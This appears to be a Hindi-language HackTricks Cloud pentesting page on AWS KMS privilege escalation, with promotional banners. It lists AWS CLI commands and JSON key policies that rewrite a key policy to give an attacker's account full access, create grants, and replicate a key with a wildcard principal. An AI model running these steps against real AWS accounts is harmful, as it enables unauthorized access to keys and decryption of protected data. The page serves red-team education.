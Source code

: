 # AWS - KMS विशेषाधिकार वृद्धि

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## KMS

KMS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

इन अनुमतियों के साथ **कुंजी के एक्सेस अनुमतियों को संशोधित करना संभव है** ताकि इसका उपयोग अन्य खातों द्वारा या यहाँ तक कि किसी भी व्यक्ति द्वारा किया जा सके: 

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

यह **एक प्रिंसिपल को एक KMS कुंजी का उपयोग करने की अनुमति देता है:**
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
एक अनुदान केवल कुछ प्रकार के ऑपरेशन की अनुमति दे सकता है: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
ध्यान दें कि KMS को **उपयोगकर्ता को कुंजी का उपयोग करने की अनुमति देने में कुछ मिनट लग सकते हैं** जब तक अनुदान उत्पन्न नहीं हो जाता। उस समय के बाद, प्रिंसिपल को कुंजी का उपयोग करने के लिए कुछ भी निर्दिष्ट करने की आवश्यकता नहीं होती है।\
हालांकि, अगर तुरंत अनुदान का उपयोग करना आवश्यक है [एक अनुदान टोकन का उपयोग करें](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (निम्नलिखित कोड की जांच करें)।\
[**अधिक जानकारी के लिए यह पढ़ें**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token)।
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
ध्यान दें कि यह संभव है कि कुंजी की अनुमतियों की सूची बनाई जा सकती है:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

इन अनुमतियों के साथ, एक विभिन्न क्षेत्र में एक विभिन्न नीति के साथ एक मल्टी-रीजन सक्षम KMS कुंजी की प्रतिलिपि बनाना संभव है।

इसलिए, एक हमलावर इसका दुरुपयोग करके कुंजी तक पहुंचने और उसका उपयोग करने के लिए इस्तेमाल कर सकता है

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

यह अनुमति किसी कुंजी का उपयोग करके कुछ जानकारी को डिक्रिप्ट करने की अनुमति देती है।\
अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-pentesting/aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../../aws-pentesting/aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **PDF में HackTricks डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैक्ट्रिक्स और हैक्ट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
